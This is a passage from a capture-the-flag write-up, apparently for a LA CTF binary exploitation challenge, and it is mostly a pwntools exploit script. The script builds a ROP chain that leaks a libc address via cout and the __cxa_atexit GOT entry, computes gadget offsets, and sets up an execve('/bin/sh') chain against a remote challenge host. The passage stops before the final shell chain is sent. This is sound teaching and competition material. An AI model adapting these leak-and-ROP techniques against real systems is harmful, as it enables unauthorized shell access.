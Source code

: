 Note that the binary is restarted by returning to `_start`. Once it restarts, we can do the same thing again except with gadgets to pop a shell:

```
ropchain = p64(POP_RDI)
ropchain += p64(BINSH)
ropchain += p64(POP_RSI_POP_R15)
ropchain += p64(0) + p64(0)
ropchain += p64(POP_RDX)
ropchain += p64(0)
ropchain += p64(EXECVE_SYSCALL)
```

The final script:
```
from pwn import *
import sys

if __name__ == '__main__':
    debug = len(sys.argv) > 1

    if debug:
        p = gdb.debug('./patch', '''
        set follow-fork-mode child
        b *main
        b *main+664
        c
        ''')
    else:
        p = remote('lac.tf', 31281)

    print(p.readuntil(b': ').decode())
    p.sendline(b'')

    _START = 0x401120
    MAIN = 0x401202
    __CXA_ATEXIT_GOT = 0x404050
    COUT = 0x4010c0 # plt entry for operator<<(stream, char*)
    STD_COUT = 0x4040c0 # stdout
    POP_RSI_POP_R15 = 0x401779
    POP_RDI = 0x40177b
    NEWLINE_STR = 0x4020a7+13

    # set rsi = __cxa_atexit @ got
    # jump to 0x40141c (cout << rsi << endl)
    # return to main
    ropchain = p64(POP_RSI_POP_R15)
    ropchain += p64(__CXA_ATEXIT_GOT)
    ropchain += p64(0)
    ropchain += p64(POP_RDI)
    ropchain += p64(STD_COUT)
    ropchain += p64(COUT)
    ropchain += p64(_START)

    print(p.readuntil(b': ').decode())
    p.sendline(ropchain)

    print(p.readuntil(b': ').decode())
    p.sendline(str(72).encode())

    LIBC_BASE = u64(p.recvuntil(b'Enter')[:-5][1:] + b'\x00\x00') - 244208
    print(hex(LIBC_BASE))
    POP_RDX = LIBC_BASE + 0xc8acd
    EXECVE_SYSCALL = LIBC_BASE + 0xc8fc0
    BINSH = LIBC_BASE + 1663314
```